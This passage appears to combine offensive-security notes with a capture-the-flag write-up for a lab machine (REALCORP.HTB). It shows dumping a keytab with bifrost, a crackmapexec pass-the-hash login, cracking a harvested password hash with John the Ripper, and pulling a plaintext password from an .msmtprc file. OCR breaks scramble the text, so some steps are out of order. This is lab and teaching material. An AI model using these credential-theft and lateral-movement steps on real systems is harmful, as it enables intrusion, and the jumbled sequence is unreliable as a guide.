 On **macOS** you can use [**`bifrost`**](https://github.com/its-a-feature/bifrost).

```bash
./bifrost -action dump -source keytab -path test
```

Connect to the machine using the account and the hash with CME.

```bash
$ crackmapexec 10.XXX.XXX.XXX -u 'COMPUTER$' -H "31d6cfe0d16ae931b73c59d7e0c089c0" -d "DOMAIN"
CME          10.XXX.XXX.XXX:445 HOSTNAME-01   [+] DOMAIN\COMPUTER$ 31d6cfe0d16ae931b73c59d7e0c089c0  
```

## Lateral Movement

Having foothold in the system, we can start further enumerating the server. The OpenSMTPD configuration\
file (/etc/smtpd/smtpd.conf) reveals that authentication is enabled for local TLS connections.

The /etc/smtpd/creds file contains the password hash for j.nakazawa user. We can try to crack this

hash using John The Ripper tool.

Unfortunately is not possible to crack this hash. By enumerating home folders we spot a .msmtprc file.

```
echo -n
'$6$EbpPCRMuO/Xwwv51$OVFV3eryJuJnk1vev7WX4JKgU6v8ND0zjXiI0CDMB0E4N6.bsp.2bpmNVUbYPRSIE
5ex6dS92UbUAvcVdL.M/' > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

```
msmtp is an SMTP client which can be used to send emails from mail user agents. It requires a configuration
```

file \~/.msmtprc with all required information in order to function. By checking the contents of this file\
reveals a plaintext password.

We try to connect to SSH service using the credentials: j.nakazawa / sJB}RM>6Z\~64\_ with no success. As

there's Kerberos service running on the server, these credentials can be used to generate a Kerberos ticket\
which can then be used to authenticate to the SSH service. We configure the file /etc/krb5.conf as below\
in our machine.

We add an additional entry to our hosts file.

```
[libdefaults]
default_realm = REALCORP.HTB
```
